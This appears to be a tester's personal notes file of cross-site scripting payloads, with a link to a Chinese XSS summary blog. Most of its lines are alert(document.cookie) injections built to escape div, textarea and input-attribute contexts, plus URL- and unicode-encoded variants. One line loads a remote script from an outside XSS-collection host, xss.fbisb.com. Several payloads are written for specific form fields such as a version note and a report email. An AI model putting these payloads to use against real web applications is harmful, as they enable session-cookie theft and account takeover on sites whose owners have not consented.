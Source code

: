 ## XSS_save

[XSS 代码总结](https://blog.csdn.net/bcbobo21cn/article/details/53516802)


</div><script>alert(document.cookie)</script><p>

<script>alert('xss --> '+document.cookie)</script>

<img onerror=alert('xss_img_err --> '+document.cookie) src=xxx:x > 


应用上传处：版本备注：
明天你好"><script>alert('xss --> '+document.cookie)</script><"

<textarea class="form-control" rows="6" id="deviceFilter" placeholder="请输入 ...">android以上系统</textarea>

需求说明：</textarea><script>alert('xss --> '+document.cookie)</script><textarea>

<input class="form-control" id="reportEmail" value="yangming1@testin.cn"><script>alert('xss --> '+document.cookie)</script><"" type="text">

yangming1@testin.cn"><script>alert(document.cookie)</script>

</div><script>alert('XSS -> '+document.cookie)</script>
');"></a><script>alert('XSS -> '+document.cookie)</script>

<sCRiPt/SrC=//xss.fbisb.com/CvHG>

"><img onerror=alert('xss_img_err --> '+document.cookie) src=xxx:x > 
</textarea><script>alert('XSS_textarea -> '+document.cookie)</script>

"u003eu003cimg onerror=alert('xss_img_err --u003e '+document.cookie) src=xxx:x u003e 
u003c/textareau003eu003cscriptu003ealert('XSS_textarea -u003e '+document.cookie)u003c/scriptu003e

%3c/textarea%3e%3cscript%3ealert('XSS_textarea -%3e '+document.cookie)%3c/script%3e

http://m.app.mi.com/download/68352?dcp=page%3Ddetail%26id%3D68352